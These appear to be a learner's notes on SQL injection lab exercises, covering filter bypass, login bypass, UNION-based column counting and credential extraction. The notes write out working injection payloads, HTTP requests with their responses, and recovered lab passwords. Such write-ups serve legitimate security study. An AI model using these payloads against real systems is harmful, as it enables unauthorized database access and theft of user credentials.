





1. Retrieve hidden data:

SELECT \* FROM products WHERE category = 'Gifts' AND released = 1

'+OR+1=1--

-- strips the released = 1 check, and OR 1=1 makes the category comparison true for all rows, so the query returns the entire products table regardless of category or release status.

2. Login bypass:

SELECT \* FROM users WHERE username = 'administrator'--' AND password = '';

administrator'--

explaination- Everything from -- onward is commented out, so the password comparison is never execute.

3. UNION: retrieve data from other tables:

Assumptions
username -administrator
users table
username and password colums

' UNION SELECT username, password FROM users-- -

this table only has two colums
' ORDER BY 1-- 200 ok
' ORDER BY 2-- 200 ok
' ORDER BY 3-- Internal Server Error

SELECT \* FROM categoryTable WHERE category = 'Food & Drinks' UNION SELECT username, password FROM users--

password - 2f8fx0jm3n0meb3agebw

4. Determine the number of columns:

GET /filter?category=' UNION SELECT NULL,NULL,NULL-- HTTP/2 - 200 ok

NULL is valid for any type, so you add more NULLs until the error disappears — that count is your column count.

5. Find a column containing text:

SELECT \* FROM products WHERE category='' UNION SELECT 'a',NULL,NULL-- ' AND released=1

GET /filter?category=' UNION SELECT NULL,'a',NULL-- HTTP/2 - 200 ok

GET /filter?category=' UNION SELECT NULL,'sYqMY8',NULL-- HTTP/2 - 200 ok solved

explaination - A UNION requires matching column types. Testing positions individually and observing HTTP 200 vs. 500 responses can identify which column accepts text in an authorized SQL injection lab.

6. Retrieve multiple values in a single column:

SELECT * FROM products WHERE category='' UNION SELECT NULL,username||'~'||password FROM users-- ' AND released=1

GET /filter?category=' UNION SELECT NULL,'abc'-- HTTP/2 - 200 ok 

GET /filter?category=' UNION SELECT NULL,username||'~'||password FROM users-- HTTP/2

explaination - When only one text-compatible column is available, concatenate the username and password with a ~ separator into one string, such as administrator~password, so both values fit in a single column.

username and password
administrator~y0gvi9vfudexj5gowydi

Optional tasks will do later. 